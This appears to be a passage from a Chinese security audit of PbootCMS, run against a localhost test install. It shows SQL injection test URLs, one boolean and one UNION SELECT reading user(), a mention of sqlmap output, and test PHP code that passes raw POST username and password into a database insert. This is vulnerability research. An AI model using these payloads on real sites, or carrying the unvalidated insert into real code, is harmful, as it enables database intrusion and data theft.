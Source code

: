 可以看到，在为真结果下数据库全部列出。为了方便测试，把post改为get

`http://localhost/index.php/search/test?id=1 or 1) %23`
`http://localhost/index.php/search/test?id=1) union select 1,2,user()%23`

SQLMAP结果如图：

![image](./img/pbootcms15.png)

### 测试插入信息

- 控制类：(SearchController.php)

```php
    public function test()
    {
        $data["username"] = post("username");
        $data["password"] = post("password");
        if($data["username"]&&$data["password"])
            $result = $this->model->addUser($data);
            var_dump($result);
    }
```

- 对应的模板类: (ParserModel.php)
```php
    public function addUser($data){
        return parent::table("ay_test")->insert($data);
    }
```
